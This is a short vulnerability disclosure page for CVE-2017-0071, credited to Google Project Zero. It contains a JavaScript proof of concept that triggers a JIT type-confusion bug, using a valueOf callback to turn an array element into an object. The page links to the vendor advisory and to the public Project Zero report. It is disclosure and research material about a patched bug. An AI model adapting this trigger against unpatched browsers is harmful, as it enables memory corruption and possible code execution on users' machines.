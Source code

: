 # CVE-2017-0071

- Report: Dec 2016
- Fix: Mar 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
"use strict";

function func(a, b, c) {
    a[0] = 1.2;
    b[0] = c; // <<<<----------------------- (1)
    a[1] = 2.2;
    a[0] = 2.3023e-320;
}

function main() {
    var a = [1.1, 2.2];
    var b = new Uint32Array(100);

    // force to optimize
    for (var i = 0; i < 0x10000; i++)
        func(a, b, i);

    func(a, b, {valueOf: () => {
        a[0] = {}; // <<<<----------------------- (2)
        return 0;
    }});

    a[0].toString();
}

main();
```

## Reference

- [Microsoft (MS17-007)](https://technet.microsoft.com/en-us/library/security/ms17-007.aspx)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1045)
